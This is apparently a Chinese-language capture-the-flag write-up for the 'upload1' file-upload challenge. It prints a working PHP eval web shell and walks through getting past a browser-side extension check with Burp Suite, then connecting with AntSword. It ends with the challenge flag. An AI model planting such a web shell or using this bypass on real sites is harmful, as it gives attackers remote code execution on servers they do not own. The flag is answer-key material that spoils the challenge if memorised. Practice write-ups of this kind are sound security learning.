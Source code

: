 # upload1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=8f2c8d98-0a36-4744-b57f-0850a4c468d8_2)

打开提供的场景，发现是个平平无奇的文件上传。检查一下前端的代码。

![js](../../images/js.png)

有点简陋的格式检查代码，直接通过查看后缀名来判断是不是图片（甚至连传个jpeg后缀都不行……）。那这个就很简单了，尝试传个php一句话木马。

```php
<?php @eval($_POST['shell']);?>
```

这里eval会把参数里的字符串当作php代码执行，@是错误抑制符，防止出错后报错（不这么搞要是报错了就被网站管理员发现了(･･;)）。<?php 和 ?> 是php固定的标记，表示这两个符号里包括的是PHP代码。$_POST读取post请求。

### $_POST
- 当 HTTP POST 请求的 Content-Type 是 application/x-www-form-urlencoded 或 multipart/form-data 时，会将变量以关联数组形式传入当前脚本。

为了绕过前端的检查，我们需要改一下php文件的后缀名。但是改了后就直接传上去虽然不会弹出提示，但是我们也连不了。笨笨的计算机看到jpg后缀就不会往php去想了，所以我们要做点手脚，上传后再把后缀改回来。这里可以使用burpsuite的拦截功能。

### Tips
- 使用burpsuite内置的浏览器可以在不用配置代理的情况下实现拦截包，方便快捷。
- 成功拦截到包以后点击HTTP History，右键目标包选择Send to Repeater，这样就可以修改包内容并预览发送出去的结果了。

这里我们把请求的filename选项改成"flag.php",点击Send就可以看到返回的结果了。

![bp](../../images/burpsuite.png)

把显示的上传路径复制粘贴到蚁剑中（右键->添加数据），并填写密码“shell”（这个根据之前一句话木马$_POST所填的参数决定），就能找到flag了。

![蚁剑](../../images/antSword.png)

## Flag
> cyberpeace{59a333a44d9d5e1d354c8c3cfca7aa24}
